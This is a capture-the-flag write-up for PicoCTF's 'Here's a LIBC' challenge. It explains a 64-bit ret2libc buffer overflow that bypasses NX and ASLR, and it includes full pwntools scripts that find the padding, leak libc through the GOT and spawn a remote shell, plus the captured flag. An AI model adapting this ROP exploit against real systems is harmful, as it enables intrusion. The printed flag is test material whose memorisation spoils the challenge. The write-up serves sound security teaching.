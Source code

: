 ```yaml
---
title: Ret2libc 64 bits (NX & ASLR)
description: Exploiting a buffer overflow using ret2libc with ASRL and NX enabled.
---
```


# Ret2libc 64 bits (NX & ASLR)

## Summary

Exploiting a buffer overflow using `ret2libc` with `ASRL` and `NX` enabled.

## Challenge

### Description

!!! note ""
    Challenge : [Here's a LIBC](https://play.picoctf.org/practice/challenge/179) from PicoCTF 2021.

I am once again asking for you to pwn this binary.

- [vuln](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/vuln) [libc.so.6](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/libc.so.6) [Makefile](https://mercury.picoctf.net/static/58622771a398cdc12767c5caab84fcb9/Makefile)
- `nc mercury.picoctf.net 24159`

## Writeup

We do not have access to the source code, however we have the binary and the `libc`.

Let's have a look at the binary :

```
$ pwn checksec vuln
[*] '.../picoctf/Heres_a_LIBC/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

`NX` is enabled, so we can't run our shellcode on the stack. Also, `ASLR` is enabled on the remote TCP service.

To run the binary, I needed to remove a library with [patchelf](https://github.com/NixOS/patchelf).

```
$ ls
libc.so.6  vuln
$ ldd vuln
        linux-vdso.so.1 (0x00007ffc9eded000)
        libc.so.6 => ./libc.so.6 (0x00007f3b9fe00000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f3ba03e0000)
$ ./vuln
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!

$ patchelf --remove-rpath /lib64/ld-linux-x86-64.so.2 vuln
$ ./vuln
WeLcOmE To mY EcHo sErVeR!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAa
^C
```

Let's try to calculate the size of the padding of the buffer overflow. Source code :

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find


PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(0xFF)

    proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


if __name__ == "__main__":
    padding = find_padding_size()
    print("Padding size:", padding)
```

Execution :

```
$ python3 calc_padding.py
[+] Starting local process './vuln': pid 105001
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 105001)
[+] Parsing corefile...: Done
...
Padding size: 136
```

---

We have a padding of 136 ! Now, we need to bypass `NX` and `ASLR`.

1. To bypass `NX`, we will use ROPChains to execute our code.
2. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets.

Source code :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import remote, p64, u64, ELF


"""
0x0000000000400913: pop rdi; ret;
0x000000000040052e: ret;
"""

PADDING = 136
HOST, PORT = "mercury.picoctf.net", 24159

vuln = ELF("./vuln")
libc = ELF("./libc.so.6")

# Gadgets
pop_rdi  = p64(0x0000000000400913)
ret      = p64(0x000000000040052e)
puts_plt = p64(vuln.plt['puts'])
main_plt = p64(vuln.symbols['main'])
puts_got = p64(vuln.got['puts'])

# Leak puts address inside libc
payload = b"A" * PADDING
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_plt

# Send the first ROP
proc = remote(HOST, PORT)
proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!", payload)

# Parse puts address from stdout 
proc.recvline()
proc.recvline()
puts_addr = proc.recvline().strip().ljust(8, b'\x00')
print(f"puts_addr: {puts_addr}")

# Calculate libc base address (offset diff)
libc.address = u64(puts_addr) - libc.symbols['puts']
bin_sh   = p64(next(libc.search(b'/bin/sh')))
system   = p64(libc.symbols['system'])

# Send the second ROP with the right offsets, system('/bin/sh')
payload = b"A" * PADDING
payload += ret # stack alignment, The MOVAPS issue on https://ropemporium.com/guide.html
payload += pop_rdi
payload += bin_sh
payload += system

proc.sendline(payload)
proc.interactive()
```

Execution :

```
$ python3 ret2libc.py
...
puts_addr: b'0Zy\x07\x18\x7f\x00\x00'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ id
uid=1560(here-s-a-libc_5) gid=1561(here-s-a-libc_5) groups=1561(here-s-a-libc_5)
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_cf205091ad15ab6d}[*] Got EOF while reading in interactive
$
[*] Closed connection to mercury.picoctf.net port 24159
```